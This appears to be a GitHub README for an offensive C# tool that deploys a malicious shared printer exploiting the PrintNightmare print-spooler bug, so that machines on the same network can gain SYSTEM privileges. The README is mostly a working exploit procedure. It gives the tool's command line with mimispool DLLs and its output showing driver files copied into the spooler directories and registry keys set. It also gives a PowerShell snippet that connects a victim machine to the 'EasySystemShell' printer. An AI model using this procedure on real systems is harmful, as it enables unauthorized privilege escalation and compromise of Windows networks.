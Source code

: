 # DeployPrinterNightmare
C# tool for installing a shared network printer abusing the PrinterNightmare bug to allow other network machines easy privesc!

Discovered and demonstraited by the one and only [Benjamin Delpy](https://twitter.com/gentilkiwi)

```
C:\Users\Flangvik\Desktop>FakePrinter.exe 32mimispool.dll 64mimispool.dll EasySystemShell
[<3] @Flangvik - TrustedSec
[+] Copying C:\Windows\system32\mscms.dll to C:\Windows\system32\spool\drivers\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Copying 64mimispool.dll to C:\Windows\system32\spool\drivers\x64\3\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Copying 32mimispool.dll to C:\Windows\system32\spool\drivers\W32X86\3\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Adding printer driver => Generic / Text Only!
[+] Adding printer => EasySystemShell!
[+] Setting 64-bit Registry key
[+] Setting 32-bit Registry key
[+] Setting '*' Registry key
```
You can then reach the EasySystemShell printer from the same network by hitting the computer it was installed on using explorer (Go to \\\\printer-installed-host\ in explorer, click the printer and install) or using PowerShell

```
$serverName  = 'printer-installed-host'
$printerName = 'EasySystemShell'
 
$fullprinterName = '\\' + $serverName + '\' + $printerName + ' - ' + $(If ([System.Environment]::Is64BitOperatingSystem) {'x64'} Else {'x86'})
 
Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
Add-Printer -ConnectionName $fullprinterName
```

# Credits and ressources

*  @shreedee => https://github.com/shreedee/EVOPrinter/blob/master/printerDriver/SpoolerHelper.cs
*  [Benjamin Delpy](https://twitter.com/gentilkiwi) => https://twitter.com/gentilkiwi/status/1420896231648288772
* https://pentestlab.blog/2021/08/02/universal-privilege-escalation-and-persistence-printer/
* https://docs.microsoft.com/en-us/windows/win32/printdocs/addprinterdriverex
* https://github.com/freefirex